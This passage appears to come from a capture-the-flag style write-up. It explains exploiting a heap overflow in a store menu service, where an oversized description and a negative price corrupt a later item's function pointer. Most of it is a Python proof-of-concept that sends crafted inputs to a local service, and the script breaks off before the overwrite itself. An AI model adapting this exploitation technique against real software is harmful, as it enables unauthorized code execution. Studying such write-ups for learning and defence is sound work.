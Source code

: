 If I could somehow overwrite that pointer of an item by overflowing the store description string, I could possible get code execution (it was nowhere near that easy, but bear with me). I started trying to generate large items, and indeed, I could overflow the function pointer of the second item using large inputs. The trick was to also set the price to a negative value, giving me just enough bytes to overflow. I whipped up a poc python script to do this for me. The layout and some functions of this poc are heavily inspired by [saelo](https://gist.github.com/saelo/9e6934b3c40cf42e3f87)!

```python
from socket import *
import struct, telnetlib

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    s.connect(('localhost', 6666))
    
    # pause to allow gdb to attach
    raw_input()
    
    # register store
    readtil('choice?')
    sendln('a')     
    readtil('store?')
    sendln("S"*63)  # store name; maximum allowed, need it to overflow a buffer later!
    
    # the program *needs* to have an item to sell before it can generate a store menu
    readtil('choice?')
    sendln('a')     # sell a phone
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
    sendln('B'*0x4f)
    
    # generate store menu. this will be 0xb20 bytes large, on the heap. 
    readtil('choice?')
    sendln('c')

    # second item, will be allocated after the store menu string
    # this is the one whose function pointer we will corrupt
    readtil('choice?')
    sendln('a')     # sell a phone
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
```